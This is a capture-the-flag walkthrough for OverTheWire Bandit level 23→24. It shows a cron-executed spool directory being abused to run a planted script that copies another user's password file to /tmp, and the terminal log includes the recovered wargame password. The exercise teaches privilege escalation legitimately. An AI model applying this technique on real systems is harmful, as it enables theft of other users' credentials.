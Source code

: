 ## Bandit Level 23 -> Level 24

## Level Goal

A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Commands you may need to solve this level

cron, crontab, crontab(5) (use "man 5 crontab" to access this)

## Solution

We find the file /usr/bin/cronjob_bandit24.sh would be executed.
And it will execute all scripts in /var/spool/bandit24 and then delete them.
Otherway, I know the password is stored in /etc/bandit_pass/bandit24.
So I would like to touch a file named tash.sh whose content is followed:
```
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/ans
```
It means copy the content of '/etc/bandit_pass/bandit24' to '/tmp/ans'
Then dont forget change the access permissions and copy it to /var/spool/bandit24/
After a while, we can see the password if /tmp/ans.
That is all.

```
bandit23@melinda:~$ cd /etc/cron.d
bandit23@melinda:/etc/cron.d$ ls
behemoth4_cleanup  cronjob_bandit24       melinda-stats          natas26_cleanup  semtex0-64   vortex0
cron-apt           cronjob_bandit24_root  natas-session-toucher  natas27_cleanup  semtex0-ppc  vortex20
cronjob_bandit22   leviathan5_cleanup     natas-stats            php5             semtex5
cronjob_bandit23   manpage3_resetpw_job   natas25_cleanup        semtex0-32       sysstat
bandit23@melinda:/etc/cron.d$ cat cronjob_bandit24
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@melinda:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        timeout -s 9 60 "./$i"
        rm -f "./$i"
    fi
done


bandit23@melinda:/etc/cron.d$ cd /tmp
bandit23@melinda:/tmp$ vim task.sh
bandit23@melinda:/tmp$ cat tash.sh
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/ans
bandit23@melinda:/tmp$ ls -l tash.sh
-rw-rw-r-- 1 bandit23 bandit23 53 May 12 22:00 tash.sh
bandit23@melinda:/tmp$ chmod 777 tash.sh
bandit23@melinda:/tmp$ cp tash.sh /var/spool/bandit24/
(afer a while ...)
bandit23@melinda:/tmp$ cat ans
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```


